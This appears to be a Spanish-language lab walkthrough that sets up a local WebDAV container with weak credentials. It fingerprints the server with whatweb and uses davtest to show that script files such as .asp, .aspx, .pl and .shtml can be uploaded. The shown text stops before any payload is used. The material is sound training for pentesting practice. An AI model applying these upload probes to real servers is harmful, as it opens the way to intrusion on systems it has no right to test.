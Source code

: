 # Laboratorio, guía paso a paso de explotación

Acción:

```bash
docker pull bytemark/webdav
docker run --restart always -v /srv/dav:/var/lib/dav -e AUTH_TYPE=Digest -e USERNAME=admin -e PASSWORD=richard --publish 80:80 -d bytemark/webdav
docker ps
```

Resultado:

```bash
CONTAINER ID   IMAGE             COMMAND                  CREATED         STATUS         PORTS                                        NAMES
86327e2c497a   bytemark/webdav   "docker-entrypoint.s…"   3 seconds ago   Up 2 seconds   0.0.0.0:80->80/tcp, :::80->80/tcp, 443/tcp   busy_saha
```

Explicación: tenemos el laboratorio corriendo por el `localhost:80`

![Captura](./Imágenes/web_1.png)

---

## Reconocimiento

Acción:

```bash
whatweb http://127.0.0.1
```

Resultado:

```bash
http://127.0.0.1 [401 Unauthorized] Apache[2.4.37], Country[RESERVED][ZZ], HTTPServer[Unix][Apache/2.4.37 (Unix)], IP[127.0.0.1], Title[401 Unauthorized], WWW-Authenticate[WebDAV][Digest]
```

Explicación: con *whatweb* vemos que existe una cabecera `WWW-Authenticate[WebDAV][Digest]`


Acción:

```bash
davtest -url http://127.0.0.1 -auth admin:richard 2>&1
```

Resultado:

```bash
********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://127.0.0.1
********************************************************
NOTE	Random string for this session: 91iISb5pQ6yH0x
********************************************************
 Creating directory
MKCOL		SUCCEED:		Created http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x
********************************************************
 Sending test files
PUT	txt	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.txt
PUT	cfm	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.cfm
PUT	aspx	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.aspx
PUT	html	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.html
PUT	shtml	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.shtml
PUT	pl	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.pl
PUT	asp	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.asp
```